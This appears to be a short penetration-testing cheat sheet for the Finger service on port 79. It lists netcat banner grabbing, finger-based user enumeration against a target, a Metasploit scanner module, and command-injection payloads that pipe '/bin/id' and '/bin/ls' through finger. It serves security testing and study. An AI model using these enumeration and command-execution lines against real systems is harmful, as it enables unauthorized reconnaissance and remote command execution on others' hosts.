 # Port 79 - Finger

## Banner Grabbing

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

## User Enumeration

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Metasploit uses more tricks than Nmap.

```bash
use auxiliary/scanner/finger/finger_users
```

## Command Execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```